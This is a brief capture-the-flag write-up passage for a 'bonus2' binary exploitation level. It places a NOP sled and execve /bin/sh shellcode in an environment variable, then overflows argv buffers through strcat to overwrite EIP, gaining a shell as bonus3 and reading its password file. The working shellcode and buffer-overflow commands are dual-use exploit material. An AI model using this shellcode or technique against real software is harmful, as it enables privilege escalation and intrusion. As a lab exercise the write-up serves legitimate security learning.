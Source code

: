 We implement a environment variable `EXPLOIT` with a shellcode :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")
```

We fill `argv[1]` with our `EXPLOIT` address and we insert a padding in `argv[2]` for overlap `EIP` we achieve this with the strcat in greetuser function :
```bash
./bonus2 $(python -c "print '\x04\xf8\xff\xbf' * 100") $(python -c "print 'B' * 26")
$ whoami
bonus3
$ cd .. && cat bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```